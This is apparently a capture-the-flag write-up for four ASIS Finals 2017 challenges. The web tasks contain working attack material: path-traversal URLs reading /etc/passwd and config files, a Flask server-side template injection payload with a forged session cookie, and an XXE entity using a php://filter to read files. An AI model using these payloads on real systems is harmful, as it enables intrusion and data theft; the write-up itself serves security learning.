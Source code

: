 
# ASIS-FINALS-2017
-Task name : Golem is stupid <br>
-Category : Web <br>
 
-Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

-tl;dr : SSTI to get RCE in flask session token <br>

-Challenge : <br>
-first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
-Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
---------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

-<br>
-Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>

-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>

-Task name :  GSA File Server  <br>
-Category : Web <br>

-Description :  GSA's file server, go find the hole, drill it and grab the flag :)
-Note that Scope is 128.199.40.185:* <br>
<br>

-tl;dr : Exploit XXE and Use a directory listing vuln to read flag<br>

-Challenge : <br>
-First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
-Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
-the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
-```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
-<br> the directory of the flag was found using the first vuln <br>
-Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>
-Task name :   Chaoyang District   <br>
-Category : PPC <br>
-Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
-tl;dr : play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
-Challenge : <br>
-Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
#might wanna use pwntools instead of sockets, it bugged sometime
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('178.62.22.245',32145))
seq=['e3','c5','b5','g3','b3','a5','b7','a7','d7','e6','a4','a8','e1','b1','g8','c8','g5','h2','g1','h6','g7','h7','d8','c1','e8','a2','h3','h5'
i=0
j=0
while True:
	print s.recv(1024)
	print s.recv(1024)
	print 'Game nubmer : ' , j+1
	if i==len(seq):
		j+=1
		i=0
	s.send(seq[i]+'\n')
	if j==49:
		print s.recv(1024)
	i+=1
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br>
-Task name :   Vivid Spying   <br>
-Category : Networking <br>
-Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
-Challenge : <br> 
-The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
-bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
